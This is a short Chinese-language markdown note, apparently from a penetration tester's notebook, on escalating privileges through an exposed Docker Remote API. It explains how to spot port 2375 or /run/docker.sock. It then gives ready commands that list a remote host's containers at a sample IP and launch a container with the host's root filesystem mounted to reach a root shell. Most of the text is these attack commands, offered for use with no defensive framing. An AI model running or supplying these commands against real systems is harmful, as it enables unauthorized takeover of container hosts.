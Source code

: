 # （存疑） Docker Remote api提权

#### docker提权

常见漏洞点： Docker Remote api\
识别点：2375端口，/run/docker.sock，可以看到宿主的容器

```python
 /run/docker.sock
 docker ps    ------如果显示了宿主机的docker，那么就存在漏洞
```

**2375开放（外网直接打）**

```python
docker -H tcp://192.168.52.128:2375 images    --查看容器组
docker -H tcp://192.168.52.128:2375 ps      --查看正在运行的容器
docker -H tcp://192.168.52.128:2375 run --rm -it -v /:/tmp/1/ wordpress /bin/bash
挂载宿主目录
```

**2375端口不开放（内网机器开搞）**

```python
挂载宿主机到docker上
docker run --rm -it -v /:/tmp/1/ wordpress /bin/bash
或
docker run -v /:/host -t -i bash
```

如果docker被卸载

```python
vim /etc/apt/sources.list
apt-get update
apt-get install docker.io
```
